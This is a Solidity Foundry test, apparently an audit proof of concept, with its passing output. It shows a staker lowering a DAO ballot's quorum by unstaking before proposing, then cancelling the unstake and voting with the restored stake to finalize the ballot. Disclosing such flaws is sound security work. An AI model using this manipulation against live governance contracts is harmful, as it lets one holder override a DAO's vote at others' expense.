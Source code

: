 ```js
		vm.startPrank(alice);
		staking.stakeSALT(aliceStakedAmount);


		// Set up the parameters for the proposal
		uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
		uint256 ballotID = 1;

		// Alice unstakes her SALT first, before floating the proposal
		uint256 aliceUnstakeAmount = 570_000 ether;
		uint256 unstakeID = staking.unstake(aliceUnstakeAmount, 52);


		// Propose a parameter ballot
		proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
		emit log_named_decimal_uint("requiredQuorumForBallotType =", proposals.requiredQuorumForBallotType(BallotType.PARAMETER), 18); // only 10% of (6_000_000 + 60_000) = 606_000

		// Alice cancels her unstake
		staking.cancelUnstake(unstakeID);

		skip(14 days);

		// Alice casts a vote, enough for quorum
		proposals.castVote(ballotID, Vote.INCREASE);

		vm.stopPrank();

		emit log_named_decimal_uint("votes cast in favour =", proposals.votesCastForBallot(ballotID, Vote.INCREASE), 18);

		// Now it should be possible to finalize the ballot
		dao.finalizeBallot(ballotID);
		// Check that the ballot is finalized
		bool isBallotFinalized = !proposals.ballotForID(ballotID).ballotIsLive;
		assertTrue(isBallotFinalized);
	}
```

Output:
```js
Ran 2 tests for src/dao/tests/DAO.t.sol:TestDAO
[PASS] test_t0x1c_cancelUnstakeToManipulateVotingPower() (gas: 954702)
Logs:
  requiredQuorumForBallotType =: 606000.000000000000000000
  votes cast in favour =: 630000.000000000000000000

[PASS] test_t0x1c_stakingAfterProposalCreation() (gas: 1045244)
Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 10.52s
```

---
